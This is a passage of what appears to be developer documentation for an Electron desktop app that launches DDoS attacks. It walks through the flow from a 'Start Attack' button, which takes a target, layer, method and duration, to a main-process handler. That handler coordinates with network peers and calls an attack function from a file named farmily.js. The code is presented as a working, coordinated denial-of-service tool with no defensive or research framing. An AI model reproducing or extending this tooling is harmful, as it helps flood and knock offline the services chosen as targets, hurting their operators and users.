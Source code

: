 
## 🔄 **How Everything Connects: Data Flow**

### **Starting an Attack (Step by Step)**

#### **1. User Clicks "Start Attack"**
```javascript
// In the UI (renderer/js/attack-manager.js)
document.getElementById('single-attack-btn').addEventListener('click', async () => {
  const config = {
    target: document.getElementById('single-target').value,
    layer: document.getElementById('single-layer').value,
    method: document.getElementById('single-method').value,
    duration: parseInt(document.getElementById('single-duration').value)
  };
  
  // Send to main process
  const result = await electronAPI.startDDosAttack(config);
});
```

#### **2. Main Process Receives Request**
```javascript
// In main.js
ipcMain.handle('start-ddos-attack', async (event, config) => {
  // Start networking for coordination
  await networkCoordinator.startNetworking();
  
  // Get system performance before attack
  const preAttackPerformance = await systemInfoManager.getPerformanceMetrics();
  
  // Start the actual attack using our enhanced farmily.js
  const result = await startAttack(
    config.target, 
    config.layer, 
    config.method, 
    config.duration, 
    {
      // Real-time progress updates
      onProgress: (stats) => {
        // Send live updates back to UI
        mainWindow.webContents.send('attack-progress', stats);
        
        // Share with network peers
        networkCoordinator.updateLocalStats(stats);
      }
    }
  );
  
  return result;
});
```

